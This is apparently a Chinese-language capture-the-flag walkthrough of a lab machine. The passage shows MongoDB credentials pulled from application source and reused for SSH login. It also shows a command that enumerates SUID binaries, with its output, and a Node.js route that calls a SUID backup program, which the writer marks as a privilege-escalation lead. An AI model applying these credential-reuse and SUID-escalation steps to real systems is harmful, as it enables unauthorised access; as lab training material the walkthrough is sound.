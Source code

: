 解压后获取到配置信息

```
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
```

因为没有开数据库端口所以只能测试能不能ssh登陆，登陆成功

## 尝试suid提权

```
find / -user root -perm -4000 -print 2>/dev/null

/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/local/bin/backup
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/bin/ping
/bin/umount
/bin/fusermount
/bin/ping6
/bin/ntfs-3g
/bin/su
/bin/mount
```

这里发现一个很有趣的东西backup文件,之前源码当中app.js有

```
app.get('/api/admin/backup', function (req, res) {
    if (req.session.user && req.session.user.is_admin) {
      var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
      var backup = '';

      proc.on("exit", function(exitCode) {
        res.header("Content-Type", "text/plain");
        res.header("Content-Disposition", "attachment; filename=myplace.backup");
        res.send(backup);
      });

      proc.stdout.on("data", function(chunk) {
        backup += chunk;
      });

      proc.stdout.on("end", function() {
      });
    }
    else {
      res.send({
        authenticated: false
      });
    }
  });
```